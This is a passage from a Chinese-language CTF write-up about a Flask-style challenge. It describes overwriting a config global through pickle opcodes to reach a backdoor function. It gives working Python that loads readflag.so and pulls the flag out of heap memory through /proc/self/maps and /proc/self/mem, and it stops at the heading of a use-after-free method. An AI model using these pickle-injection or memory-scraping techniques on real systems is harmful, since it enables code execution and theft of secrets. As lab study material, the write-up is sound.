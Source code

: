 可以看到，要使用backdoor函数必须使得`notadmin["admin"]=="yes"`

而在config.py中`notadmin=`{`"admin":"no"`}``,因此需要通过pickle opcode把这个全局变量覆盖成yes。

### <a class="reference-link" name="%E8%AF%BBflag"></a>读flag

app.py里 有一个`cdll.LoadLibrary("./readflag.so")`

所以获取readflag.so，放到ida里反编译一下。

[![](https://p0.ssl.qhimg.com/t0165c9977d4dd03126.png)](https://p0.ssl.qhimg.com/t0165c9977d4dd03126.png)

可以看到就一个easy()函数。猜测flag文件没有直接读取的权限，要通过readflag.so来读。但是这里看有个问题是，easy函数执行完成后，把flag读到堆上，但是并没有返回指针。

这里有两种方法读flag。分别通过/proc目录和构造uaf的方式来读取堆上的flag。

#### <a class="reference-link" name="%E6%B3%951%EF%BC%9A%E8%AF%BBproc%E7%9B%AE%E5%BD%95"></a>法1：读proc目录

proc是linux伪文件系统，保存有内存信息。其中/proc/self/maps保存当前进程的虚拟内存各segment的映射关系。可以获取到堆地址的范围。

而访问/proc/self/mem即访问实际的进程内存。需要注意的是，如果访问没有被映射的内存区域则会触发错误，要把文件指针移到对应的区域才能成功访问。

具体代码如下

```
from ctypes import cdll
a=cdll.LoadLibrary("./readflag.so")
a.easy()

import re
f = open('/proc/self/maps', 'r') 
vmmap = f.read()
print(vmmap)
re_obj = re.search(r'(.*)-(.*) rw.*heap', vmmap)
heap = re_obj.group(1)
heap_end = re_obj.group(2)
print(heap)
print(heap_end)
heap = int('0x'+heap,16) 
heap_end = int('0x'+heap_end,16) 
f.close()

f = open('/proc/self/mem', 'rb') 
size = heap_end - heap
f.seek(heap)
res = f.read(size)
res = re.search(b'flag`{`.*`}`', res).group()
print(res)
f.close()
```

#### <a class="reference-link" name="%E6%B3%952%EF%BC%9A%E6%9E%84%E9%80%A0%E4%B8%80%E4%B8%AAuaf%E6%9D%A5%E8%AF%BBflag%E7%9A%84%E5%86%85%E5%AD%98%E6%95%B0%E6%8D%AE"></a>法2：构造一个uaf来读flag的内存数据

